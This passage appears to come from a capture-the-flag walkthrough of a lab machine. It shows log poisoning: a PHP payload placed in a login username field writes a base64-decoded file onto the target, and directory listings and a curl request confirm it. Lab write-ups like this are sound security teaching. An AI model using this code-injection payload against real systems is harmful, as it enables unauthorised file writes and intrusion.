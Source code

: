 
#### Write File

I will use `file_put_contents` to write files on target. I don't want to
pass my file contents through the url, as that is limited on space. I
will also base64 my content to ensure that it doesn't causes issues with
spaces or punctuation.

I'll start by base64 encoding what I want to put:



    root@kali# echo "0xdf was here" | base64 -w0
    MHhkZiB3YXMgaGVyZQo=



Then I'll poison the log with
`username=<?php $f = "MHhkZiB3YXMgaGVyZQo="; file_put_contents("0xdf.txt", base64_decode($f)); ?>`

If I do a dir listing on `.` right now, I won't see the file. That's
because the file isn't written yet. But the act of viewing the log to
see the dir list also wrote the file, so just running the same dirlist
again will show it:



    [04 March 2019, 11:22:03 AM] 10.10.14.14 - Username: Array
    (
        [0] => .
        [1] => ..
        [2] => 0xdf.txt
        [3] => index.md
        [4] => webadmin.php
    )
    1, Password: xxxxxx



I can see the file through my log poisoning file read:



    [04 March 2019, 11:33:35 AM] 10.10.14.14 - Username: 0xdf was here
    , Password: xxxxxx



I can also see it over http since it's in a directory being served:



    root@kali# curl http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/0xdf.txt
    0xdf was here



### File System Shell

#### Code

It's certainly possible to enumerate the box with repeater and the
techniques above. Much like [FluJab a few weeks
ago](/htb-flujab.md#scripting-it), this is a case where
putting in bit of time up front to write the script paid off over time
as I used it more and more.
